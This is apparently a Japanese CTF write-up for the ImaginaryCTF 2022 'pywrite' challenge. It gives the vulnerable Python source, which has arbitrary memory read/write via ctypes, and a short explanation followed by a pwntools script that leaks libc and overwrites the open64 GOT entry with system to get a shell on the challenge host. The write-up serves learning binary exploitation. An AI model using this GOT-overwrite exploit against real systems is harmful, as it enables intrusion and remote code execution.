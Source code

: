 ```yaml
---
layout: chall
ctf_name: imaginaryctf_2022
problem_name: pywrite
genre: pwn
solved_date: 2022-07-18
during_ctf: true
tag: [python]
fav: false
difficulty: easy
---
```


### 概要

```py
from ctypes import c_ulong

def read(where):
  return c_ulong.from_address(where).value

def write(what, where):
  c_ulong.from_address(where).value = what

menu = '''|| PYWRITE ||
1: read
2: write
> '''

while True:
  choice = int(input(menu))
  if choice == 1:
    where = int(input("where? "))
    print(read(where))
  if choice == 2:
    what = int(input("what? "))
    where = int(input("where? "))
    write(what, where)
  if choice == 3:
    what = input("what????? ")
    a = open(what)
    print(a)
```


### 解法

`open(input())` が呼ばれた時点で何らかの関数を呼び出してファイルを open しているはずなので、この関数の got を書き換えれば `system(/bin/sh)` ができるはずである。`open` が呼んでいる関数は `open64`  だったので、そこの got を `system` に書き換えた。

<details><summary>スクリプト</summary>

```py
from pwn import *

chall = ELF("python3")
context.binary = chall

# stream = process('./run.sh')
stream = remote('pywrite.chal.imaginaryctf.org', 1337)

def aar(addr):
  stream.sendlineafter(b'> ', b'1')
  stream.sendlineafter(b'? ', str(addr).encode())
  return int(stream.recvline(keepends=True).decode())

def aaw(addr, val):
  stream.sendlineafter(b'> ', b'2')
  stream.sendlineafter(b'? ', str(val).encode())
  stream.sendlineafter(b'? ', str(addr).encode())

libc_addr = aar(0x8f6060) - 0x8e020
print(f'[+] {hex(libc_addr)=}')

libc = ELF('libc.so.6')
libc.address = libc_addr

aaw(chall.got['open64'], libc.symbols['system'])

stream.sendline(b'3')
stream.sendline(b'/bin/sh')

stream.interactive()
```

</details>

